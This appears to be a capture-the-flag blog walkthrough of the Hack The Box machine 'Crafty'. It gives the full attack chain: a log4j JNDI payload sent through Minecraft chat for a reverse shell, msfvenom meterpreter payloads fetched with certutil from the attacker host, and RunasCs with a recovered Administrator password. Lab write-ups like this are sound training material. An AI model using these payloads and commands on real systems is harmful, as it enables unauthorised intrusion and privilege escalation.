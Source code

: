 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Hack The Box - Crafty
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap Results

```
nmap 10.10.11.249 -p-
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/fbc9f2f4-73e7-4f98-9fb3-7856d3a97db9)

```
sudo nmap -p80,25565 -sV -sC 10.10.11.249
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/4a79d415-09b1-46a8-8d79-2dbb2f999681)


I add crafty to `/etc/hosts` with the corresponding ip address given. Then navigate to `http://crafty.htb`

```
echo "10.10.11.249 crafty.htb" | sudo tee -a /etc/hosts
```

When I visited `crafty.htb`, I found a Minecraft introduction page.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/4c649f78-9e8e-42b2-ac1d-7b782e8d63c0)


### Foothold
However, for `port 25565`, I recall there being a log4j vulnerability, `CVE-2021–44228` to be precise. This exploit enables control over log messages and parameters to execute arbitrary code. An exploit for this vulnerability can be found here.

```
git clone https://github.com/kozmer/log4j-shell-poc
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/be2f0fed-4ad2-48b6-bbf9-ccd312818f72)


Modify the `String cmd` variable to ensure compatibility with Windows.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/0f5a7e2e-8431-4bb8-bdca-a37c2d19fcfd)

In order for `poc.py` to run smoothly we need a java archive to be named `jdk1.8.0_20`. I found a java archive here

```
wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz
tar -xf jdk-8u181-linux-x64.tar.gz
mv jdk1.8.0_181 jdk1.8.0_20
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/ea8c6034-046d-4403-be85-10b8293e35c4)

To connect to the server, I needed to download the Minecraft client on my Kali system. After conducting some research, I downloaded TLauncher. https://tlauncher.org/en/download_1/minecraft-1-16-5_12582.html (I don't recommend using this, but I proceeded anyway since I'm installing it on a VM.) 
And I used Minecraft 1.16.5 Java Edition as I knew it's vulnerable to log4j.

one download the TLauncher.zip file, unzip it and open it by runing below command:


```
sudo java -jar TLauncher.jar
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/468caa45-5db4-42da-88ae-68c589cff9ef)


![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a5013fe2-04a9-4294-a7e9-4e607b6e33a7)

after that select the correct release version and fill the minecraft account name, then procced on `Enter the game`.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/edee156a-e103-44f7-8053-bff066a85aef)

Clicking on `Multiplayer` allowed me to enter the server.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b0c99b16-e72e-4528-9c4e-f2236aee7da5)

```
10.10.11.249:25565
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/f5e39e36-ac3c-4c1f-ba00-cf4a648214b3)

I had to attempt logging in to the server multiple times, and each time I had to reset the box for it to function properly. Once I login to the server, I opened a terminal and ran the POC. and it will show a command (`${jndi:ldap://10.10.16.18:1389/a}`) I copied that.

```
python3 poc.py --userip <tun0 IP> --webport 80 --lport 4444
```

and open another terminal and create a netcat listener on port 4444

```
nc -nlvp 4444
```

then in minecraft, I press `t` (to send a message) and in the chat box i paste that copied command (`${jndi:ldap://10.10.16.18:1389/a}`), so in few second i got the reverse shell in my netcat listener.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/3ffc0caf-9e4a-4e8a-9a97-b623affeb991)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/1a10e978-4a64-48d8-9990-c9d7ed14e5a7)

in below screenshot you can see the whole process:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/23388288-8ca3-4e85-bee1-e9a89d1c93c9)


### user.txt

So now we can obtain the `user.txt`

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/7a5af388-2200-4956-b3a8-e7d975ee4d1b)


### Privilege Escalation
While exploring the machine, I stumbled upon an interesting .jar file located in `C:\Users\svc_minecraft\server\plugins`.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/78997157-c6fc-469b-8f24-ee0420a08d67)

With my current shell I can’t download the file so I followed blow steps:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.18 LPORT=4244 -f exe -o exploit.exe
```
![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a5bcbffd-24bd-4dd1-844a-be857100475b)

I then fired up Metasploit and did the following:

```
sudo msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.16.18
set lport 4244
run
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/d7741354-3c76-4f9e-b23c-34be5ad4155d)

then spin up a python server on a separate tab to deliver `exploit.exe`.

```
python3 -m http.server 4245
```

Then run below command in the on the foothold shell. This command will grab the msfvenom `exploit.exe` and put it on the target machine.

```
certutil -urlcache -f http://10.10.16.18:4245/exploit.exe %temp%/exploit.exe
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/ee451881-040e-4c5d-b5be-00dbfb815e1e)

Then run the `exploit.exe`.

```
start %temp%/exploit.exe
```
![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/c3eab181-c1d6-4c0a-ac68-26e5a02d6898)

BOOM! We got a stable shell through meterpreter. so now we can download the jar file.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/353fbe7a-0924-4094-93ff-1e722c95b04d)

If we want to find out what is in this file we need a Java Decompiler. The command for one is `jd-gui` and it is built into kali. This will open up a the decompiler for you. Click on `File` in the top right and click `Open File`. Find the .jar file and open it up.

```
sudo apt install jd-gui
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/7a7bff56-1900-4967-8f98-f0f0c038c0d0)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b18fe8df-bc3e-4d51-9b9f-3a88bd5b65be)

By opening this file with JD-GUI, I found a credential in the `Playercounter.class`.

Now We are going to use `RunasCs` which will allow us to run processes with different permissions that the ones we currently have. The goal is to initiate an Administrator shell from our current user `svc_minecraft`.

https://github.com/antonioCoco/RunasCs/releases

Download the version 1.5 `RunasCs.zip` from the embed above and run an unzip on it. We are going to be using the `RunasCs.exe` for this box.

Now create another msfvenom payload but for another `port 4246`.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.18 LPORT=4246 -f exe -o exploit2.exe
```
![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/d0000b29-6ef8-4a8b-83db-735d6291f658)

On the meterpreter session you can try uploading to `\server\plugins` but it won’t work because of permissions. We need to make our way over to `\server\logs` so we can upload the new payload `exploit2.exe` and `RunasCs.exe`.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b6ac6bf3-1bbe-4976-9a48-d406a89e8645)


Open a new tab and launch Metasploit by typing `msfconsole`. Repeat the procedure from the previous Metasploit segment, this time configuring it to operate on port 4246. (listener)

```
sudo msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.16.18
set lport 4246
run
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a6014e8b-2612-4f44-b33b-1c59a9e1730b)


Returning to our previous Meterpreter shell, execute the following commands:

```
.\RunasCs.exe Administrator s67u84zKq8IXw exploit2.exe
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/97461ca3-a774-4c70-b482-681643c17887)

BOOM!! We got the Administrator shell. as well as root flag !!!

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/1a659854-4f70-4947-ab81-3eaf1ac5d8bc)








